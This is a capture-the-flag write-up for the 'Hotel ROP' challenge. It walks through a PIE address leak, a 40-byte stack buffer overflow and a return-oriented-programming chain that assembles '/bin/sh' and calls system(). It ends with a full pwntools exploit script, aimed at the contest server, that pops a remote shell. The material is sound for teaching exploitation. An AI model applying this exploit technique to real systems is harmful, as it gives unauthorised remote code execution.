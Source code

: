 # Hotel ROP

In this challenge we are given a binary, `hotel_rop` and a link to a server running this binary.

Running the file, we get the following output:
```
$ ./hotel_rop
Welcome to Hotel ROP, on main street 0x5617508ca36d
You come here often?
a
I think you should come here more often.
```

Running this multiple times, the number after "main street" keeps changing every time, but always ends with `36d`.
As it always starts with `0x55` or `0x56`, I can assume that this is an address in the program itself and not the stack or heap or libc.

Opening `hotel_rop` in Radare2 and seeking to `main`, I find immediately that `main` is at an offset of `0x136d`, so this address should be our `main` in the current program.

Checking the security of the binary, I saw that it is a PIE, but without a stack canary. Thus, it's a candidate for buffer overflows and ROP.

To find the offset for overflowing the buffer I just kept running `perl -e 'print "\x41"x40;'` with different multipliers until I got a segmentation fault. The correct offset is 40 bytes.

Looking at `california` (offset `0x11dc`) and `silicon_valley` (offset `0x1283`) in Radare2, I notice that they write something to various offsets of some memory address called `win_land` in byte increments. Looking more closely, in `california`  those bytes are "/", "b", "i" and "n", and in `silicon_valley` are "/", "s" and "h". As there is also a counter called `len` in the stack used for storing offsets, calling `california` then `silicon_valley` writes first `/bin`, then `/sh` to successive bytes in `win_land`, thus getting you the string `/bin/sh` to call `system("/bin/sh")` on.

![California](california.png)

![Silicon Valley](silicon_valley.png)


Well, that was easy.

Looking at the disassembly of the function `loss` in Radare2, I see that towards the end it runs `system(win_land)` if you pass a few complicated tests on the arguments to the function:

![Loss function](loss.png)

However, you can skip all these complicated tests and go right to the `lea rdi, obj.win_land` instruction at `0x11c3`, which puts `win_land` into the `rdi` register and calls `system()` with that as the argument.


So, the plan is: get the base address of `main` from the first line, calculate the offsets of `california`, `silicon_valley` and `loss`, and use this address to make a rop chain running those in order. Here is the code:

```python
from pwn import *

p = remote('dctf1-chall-hotel-rop.westeurope.azurecontainer.io', 7480)

main_offset = 0x136d
california_offset = 0x11dc
silicon_valley_offset = 0x1283
system_offset = 0x11c3

p.recvuntil("street")
base = int(p.recvline().strip(), 16) - main_offset

california = p64(base + california_offset)
silicon_valley = p64(base + silicon_valley_offset)
system = p64(base + system_offset)

p.recvuntil("often?\n")
p.sendline((b'\x00'*40) + california + silicon_valley + system)
p.interactive()
```

This pops a shell, and the flag is at `flag.txt`.


*As a side note, if you fill the 40 junk bytes before your ROP chain with anything but zeroes, the program says "I think you should come here more often.", and if you fill it with zeroes, the program says "Oh! You are already a regular visitor!"*
